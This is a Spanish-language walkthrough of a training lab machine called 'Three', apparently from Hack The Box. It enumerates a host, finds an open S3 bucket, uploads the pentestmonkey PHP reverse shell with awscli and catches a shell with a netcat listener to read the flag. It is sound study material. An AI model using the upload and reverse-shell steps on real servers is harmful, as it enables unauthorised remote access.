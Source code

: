 Maquina: Three

Autor:

Dificultad: Muy Facil

![Screenshot 2024-11-10 183538](https://github.com/user-attachments/assets/723e5af8-477b-4910-9178-04a6c1772101)

Iniciamos la máquina y verificamos la conexión

ping 10.129.65.152 -c 1

![Screenshot 2024-11-10 183802](https://github.com/user-attachments/assets/948ef97f-f391-4d7d-88ef-34d5d15103c5)

realizamos un escaneo de puertos y servicios

nmap -p- --min-rate 5000 -sV 10.129.65.152

el puerto 22 perteneciente al servicio SSH y el puerto 80 perteneciente al servicio HTTP están abiertos

![Screenshot 2024-11-10 183919](https://github.com/user-attachments/assets/cccca470-bbba-46bd-adcf-59f7489800ba)

vamos a la web y encontramos una dirección de correo electrónico que aparece en la sección de contacto: mail@thetoppers.htb

![Screenshot 2024-11-10 183948](https://github.com/user-attachments/assets/1400ba6a-c890-4f86-93db-5b9df8d84d96)

![Screenshot 2024-11-10 184023](https://github.com/user-attachments/assets/d54a6803-ce9f-4111-a4be-367c7801caf6)

añadimos la ip a /etc/hosts

echo 10.129.65.152 thetoppers.htb | sudo tee -a /etc/hosts

![Screenshot 2024-11-10 184239](https://github.com/user-attachments/assets/2cc97e10-0183-4f57-8b4e-0c27040728fd)

identificamos subdominios con Gobuster

gobuster vhost -u http://thetoppers.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain

![Screenshot 2024-11-10 184733](https://github.com/user-attachments/assets/e48ceb6c-7d0c-4cb0-bfad-55ab517dabbd)

añadimos la dirección del subdominio s3.thetoppers.htb al archivo /etc/hosts

![Screenshot 2024-11-10 185041](https://github.com/user-attachments/assets/1679ffdb-7560-4761-a7f2-7c3559680a5d)

echo 10.129.65.152 s3.thetoppers.htb | sudo tee -a /etc/hosts

vamos a la web

![Screenshot 2024-11-10 185051](https://github.com/user-attachments/assets/56135bcf-3d04-4c6d-8f82-b7132a3103cd)

el servicio se refiere a Amazon Simple Storage Service (Amazon S3)
Este servicio puede usarse para guardar diversos tipos de información, 
como copias de seguridad, archivos multimedia, páginas web estáticas, entre otros.

Lo instalamos y lo configuramos
sudo apt install awscli
aws configure

![Screenshot 2024-11-10 185345](https://github.com/user-attachments/assets/9fc58951-8855-4757-a247-942a6d4d955e)

![Screenshot 2024-11-10 185622](https://github.com/user-attachments/assets/8729ed6c-509d-4e4b-847c-4ca8c24ccf0c)

Esto nos muestra dos elementos de interés y una carpeta llamada "images". Además, 
disponemos de un servicio que nos permite descargar estos archivos de forma remota a nuestro entorno.

aws s3 --endpoint=http://s3.thetoppers.htb ls s3://thetoppers.htb

![Screenshot 2024-11-10 185650](https://github.com/user-attachments/assets/dad4e118-a322-471f-a4e9-f90231ac9d43)

Si no hay una configuración que exija autorización para subir archivos, podemos intentar cargar una Reverse Shell. 
Sabemos que el servidor está ejecutando archivos con extensión PHP, por lo que ya sabemos cómo generar una. 
Para este propósito, suelo recurrir a la Reverse Shell en PHP disponible en pentestmonkey. 
Puedes encontrar el script aquí: 

https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

copiamos el payload en un file y cambiamos IP y puerto.

![Screenshot 2024-11-10 190554](https://github.com/user-attachments/assets/7c81e59a-50c9-42ae-942e-405b654f985a)

![Screenshot 2024-11-10 190607](https://github.com/user-attachments/assets/85f36252-4324-452c-a2f9-ab84623bc654)

Luego, utilizamos el siguiente comando para subir un archivo desde nuestro sistema local al servicio remoto.

aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb

![Screenshot 2024-11-10 190934](https://github.com/user-attachments/assets/9a8981c6-2593-455d-aa45-7f9be699b2f9)

si accedemos a ese archivo mientras tenemos Netcat escuchando en el puerto especificado (443), deberíamos obtener una shell.

nc -nlvp 443

![Screenshot 2024-11-10 190648](https://github.com/user-attachments/assets/f8619f43-a6fd-4f15-a4b2-8295899b8c2d)

Luego, accedemos a http://thetoppers.htb/shell.php.4

![Screenshot 2024-11-10 191410](https://github.com/user-attachments/assets/d7130117-25c3-40a2-b92a-c56ac2498fed)

Encontrados el flag en /var/www/flag.txt

![Screenshot 2024-11-10 191420](https://github.com/user-attachments/assets/4936b202-8280-42ac-9e6c-7e36030eba59)

![Screenshot 2024-11-10 191542](https://github.com/user-attachments/assets/60e2a943-dd0c-401f-b1cb-bfe0afd6f355)
